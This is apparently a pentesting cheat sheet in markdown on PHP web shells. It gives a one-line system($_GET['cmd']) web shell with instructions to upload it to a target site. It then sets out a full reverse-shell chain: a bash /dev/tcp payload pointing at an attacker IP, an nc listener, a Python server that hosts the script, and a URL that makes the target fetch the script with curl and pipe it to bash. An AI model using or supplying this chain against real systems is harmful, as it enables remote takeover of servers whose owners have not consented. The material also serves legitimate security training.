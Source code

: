 # PHP Quick Reference

## Contents
- [One-Liner: system() Function]()
  - [Syntax]()
  - [Use as a Test]()
  - [Reverse Shell]()
    - [Linux Payload]()
    - [Start a Listener]()
    - [Spin Up a Local Web Server]()
    - [Build a URL with curl to Execute]()

## One-Liner: system() Function
- This is a [PHP function](https://www.php.net/manual/en/function.system.php) that is used to execute a command.
- It uses the PHP `system()` function to execute commands that are being passed through `cmd` HTTP request `GET` parameter.
- The `cmd` is a parameter. You pass the argument to that parameter via the URL (see below).
- Reference: [An Introduction to Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

### Syntax
- This is the PHP web shell in its most simple form: 
```
<?php system($_GET["cmd"]); ?>
```

### Use as a Test
- Create a PHP file and upload it to a target site that's running PHP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Build a URL to execute that script with a command (specific to the operating system o/s).
- If you get a response from the command you send to the o/s via the PHP `system()` function, you know you can execute arbitrary code on the target.
```
# for Linux:
http://[target domain]/shell.php?cmd=id

# for Windows:
http://[target domain]/shell.php?cmd=dir
```

### Reverse Shell

#### Linux Payload
- Create a shell script file containing a [Bash one-liner](bash.md) for a reverse shell.
- Use vim or some other editor and create `shell.sh` containing the following: 
```
#!/bin/bash
bash -i &> /dev/tcp/[attack ip]/[port] 0>&1
```

#### Start a Listener
- On your attack machine, spin up a listener:
```
nc -nvlp 1234
```

#### Spin Up a Local Web Server
- Start a simple Python web server on your local attack machine to serve up the bash file.
- This command must be run from the subdir that contains `shell.sh`.
```
python3 -m http.server 8000
```

#### Build a URL with curl to Execute
- We combine the PHP one-liner with a curl command to fetch `shell.sh`, and then we pipe it to Bash in order to execute it.
```
http://[target domain]/shell.php?cmd=curl%20[local attack ip]:8000/shell.sh|bash
```











